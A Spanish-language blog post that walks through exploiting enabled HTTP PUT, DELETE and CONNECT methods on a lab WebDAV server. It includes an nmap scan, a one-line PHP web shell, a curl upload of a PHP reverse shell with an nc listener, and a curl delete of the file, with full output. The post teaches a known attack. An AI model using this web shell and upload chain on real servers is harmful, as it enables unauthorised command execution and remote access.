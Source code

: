 ```yaml
---
date: 2022-02-27T17:23:12.000Z
layout: post
comments: true
title: Explotación del método PUT, DELETE y CONNECT
subtitle: 'En HTTP'
description: >-
image: >-
  http://imgfz.com/i/0iKnB5f.gif
optimized_image: >-
  http://imgfz.com/i/0iKnB5f.gif
category: ciberseguridad
tags:
  - burpsuite
  - vulnerabilidad
  - http
  - exploit
  - ataque
  - Hacking
author: Felipe Canales Cayuqueo
paginate: true
---
```


>Antes de iniciar se recomienda sobre las imágenes realizar clic derecho en abir imagen en una pestaña nueva para verla de mejor forma. 

Para entender este tipo de explotación es necesario conocer que realiza cada uno de estos métodos que lo hacen peligrosos si están habilitados:

* PUT: Puede ser utilizado para introducir archivos maliciosos, con el fin de obtener incluso ejecución remota de comandos o también subir hipervínculos que redirijan a las victimas a sitios web fraudulentos.
* DELETE: Puede ser utilizado para eliminar archivos importantes dentro del servidor web. Lo que provocaria una denegación de servicios (DoS) o perdida de información importante.
* CONNECT: Puede emplearse para tunelizar el tráfico "peer to peer" (P2P) sobre el tráfico HTTP. El atacante se podría aprovechar de esto ocultando el contenido del tráfico por el cual actuaría bajo un usuario autorizado, con el fin de eludir el firewall o autenticaciones.

Burp Suite es una herramienta en dónde cada solicitud HTTP realizada por su navegador se intercepta por un proxy previamente configurado. Con esto se pueden llegar a ver las peticiones que se realizan sobre el servidor web.

Comenzamos realizando un nmap para detectar los métodos disponibles, aunque igualmente se puede realizar con burp suite con OPTIONS:

```bash
┌─[root@kali]─[/home/user/demo/]
└──╼ nmap -p80 --script http-methods 10.1.1.9
Nmap scan report for 10.1.1.9
Host is up (0.00040s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-methods: 
|_  Supported Methods: GET POST HEAD CONNECT PUT DELETE OPTIONS

Nmap done: 1 IP address (1 host up) scanned in 1.11 seconds
```

Como se verifica que tenemos habilitado PUT, procedemos a interceptar con burp suite la página web y realizamos un test inicial con un simple archivo TXT para verificar que la vulnerabilidad se encuentre presente:

![archivotxt](http://imgfz.com/i/XrqLdZ7.png)

![davtxt](http://imgfz.com/i/7BshVRK.png)

Ahora se verifica el método DELETE:

![deletetxt](http://imgfz.com/i/XM596kf.png)

Como ya se comprobó que todo está funcional, procedemos a probar ejecución de comandos con la siguiente linea en php:

```php
<?php echo system($_REQUEST['cmd']); ?>
```

Esto se realiza de la siguiente forma:

![cmdphp](http://imgfz.com/i/Ot40GFm.png)

Como se subió de forma exitosa lo procedemos a abrir y ejecutar comandos:

![ver](http://imgfz.com/i/Y8ArG7f.png)

![cmd](http://imgfz.com/i/dgHaz34.png)

Funciona perfectamente, ahora como ya podemos realizar todo esto se intentará subir un [php malicioso](https://download1510.mediafire.com/fvfmudo0p5gg/a3i5v7urr7cp6gw/php-reverse-shell-1.0.tar.gz) para que nos devuelva un terminal interactivo por ```nc```:

Para esto nos ponemos a la escucha por el puerto que uno quiera:

```bash
┌─[root@kali]─[/home/user/demo/]
└──╼ nc -nlvp 443
```
Ahora procedemos a editar el .php cambiando los parámetros por nuestra IP y puerto:

![edit](http://imgfz.com/i/v3VozZH.png)

Una vez realizado esto lo subiremos por medio de curl:

```bash
┌─[root@kali]─[/home/user/demo/php-reverse-shell-1.0]
└──╼ curl http://10.1.1.9/dav/ --upload-file ./php-reverse-shell.php -v     
*   Trying 10.1.1.9:80...
* Connected to 10.1.1.9 (10.1.1.9) port 80 (#0)
> PUT /dav/php-reverse-shell.php HTTP/1.1
> Host: 10.1.1.9
> User-Agent: curl/7.74.0
> Accept: */*
> Content-Length: 5489
> Expect: 100-continue
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 100 Continue
* We are completely uploaded and fine
* Mark bundle as not supporting multiuse
< HTTP/1.1 201 Created
< Date: Sun, 27 Feb 2022 21:34:13 GMT
< Server: Apache/2.2.8 (Ubuntu) DAV/2
< Location: http://10.1.1.9/dav/php-reverse-shell.php
< Content-Length: 279
< Content-Type: text/html; charset=ISO-8859-1
< 
<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>201 Created</title>
</head><body>
<h1>Created</h1>
<p>Resource /dav/php-reverse-shell.php has been created.</p>
<hr />
<address>Apache/2.2.8 (Ubuntu) DAV/2 Server at 10.1.1.9 Port 80</address>
</body></html>
* Connection #0 to host 10.1.1.9 left intact
```
Como se realizó de forma exitosa lo procedemos a ejecutar:

![revphp](http://imgfz.com/i/1NX9cjf.png)
![execphp](http://imgfz.com/i/lNVRG4a.png)
![ncphp](http://imgfz.com/i/TpBctnh.png)

Y funcionó perfectamente. Ahora borraremos el .php con curl:

```bash
┌─[root@kali]─[/home/user/demo/php-reverse-shell-1.0]
└──╼ curl -X DELETE http://10.1.1.9/dav/php-reverse-shell.php -v          
*   Trying 10.1.1.9:80...
* Connected to 10.1.1.9 (10.1.1.9) port 80 (#0)
> DELETE /dav/php-reverse-shell.php HTTP/1.1
> Host: 10.1.1.9
> User-Agent: curl/7.74.0
> Accept: */*
> 
* Mark bundle as not supporting multiuse
< HTTP/1.1 204 No Content
< Date: Sun, 27 Feb 2022 21:38:55 GMT
< Server: Apache/2.2.8 (Ubuntu) DAV/2
< Content-Length: 0
< Content-Type: application/x-httpd-php
< 
* Connection #0 to host 10.1.1.9 left intact
```
![delrevphp](http://imgfz.com/i/q0rVNAG.png)

Se borra correctamente. Y se demuestra la vulnerabilidad presente. 



